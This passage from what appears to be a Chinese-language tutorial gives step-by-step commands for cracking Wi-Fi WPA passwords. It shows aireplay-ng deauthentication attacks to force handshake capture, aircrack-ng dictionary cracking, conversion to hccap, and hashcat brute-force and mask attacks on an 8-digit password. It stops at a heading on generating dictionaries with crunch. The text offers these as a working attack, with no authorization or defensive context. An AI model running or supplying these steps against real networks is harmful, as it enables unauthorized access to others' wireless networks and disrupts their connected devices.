 ```
aireplay-ng -0 20 -a B4:CD:27:DF:BF:AE wlan0mon  //-0参数指定发送攻击数据包的个数，-a参数指定攻击设备的MAC地址，wlan0mon指定无线网卡名字
```

![](https://img.arctee.cn/one/202207102316070.png)

**第一个终端上**如果出现标红区域这一条数据，就说明已经抓到了设备与热点之间的握手包并存放在了此目录下，如果没有显示，可以按上一步多发送几次，再来查看

**Step8：接下来我们进行爆破，首先要准备一个字典**

```
aircrack-ng -w pass.txt wifi1-01.cap  //-w参数指定密码字典，wifi1-01.cap为握手包
或者
aircrack-ng- a2 -b B4:CD:27:DF:BF:AE -w pass.txt wifi1-01.cap  		//-a2代表WPA的握手包 -b指定要破解的wifi BSSID  -w指定字典文件
```

![](https://img.arctee.cn/one/202207111746485.png)

这时候会惊喜的发现密码已经爆破完毕了，速度还是挺快的，使用密码即可登录

**Step9：无线网卡退出监听模式**

```
airmon-ng stop wlan0mon
```


### 掌法二：aircrack-ng 抓包 + hashcat 破解（Kail Linux）

> [Hashcat的使用手册总结](https://xz.aliyun.com/t/4008#toc-2)
> 优势：
> 速度提高数倍
> 可以用gpu破解

首先要把 **airodump** 抓取的**cap文件转化为hccap**格式， 可以在线转换， 在线转换的地址为：[https://hashcat.net/cap2hccap/](https://hashcat.net/cap2hccap/)， 也可以用**aircrack-ng**转换

```
aircrack-ng <out.cap> -J <out.hccap>
```

或者使用 hashcat 命令，第一个参数： -m 2500 为破解的模式为 WPA/PSK 方式 ，第二个参数： hccap 格式的文件是刚刚转化好的文件， 第三个参数： **dics.txt**为字典文件 :

```
hashcat -m 2500 out.hccap.hccap  dics.txt -o results
```

破解的进度通过按键盘上的 **s** 键即可查看：
![](https://img.arctee.cn/one/202207102316782.png)

1. 破解纯数字密码
```
hashcat -m 2500 -a 3 handshake.hccap ?d?d?d?d?d?d?d?d		//?d?d?d?d?d?d?d?d代表8为数字
```

2. 使用 crunch 生成字典
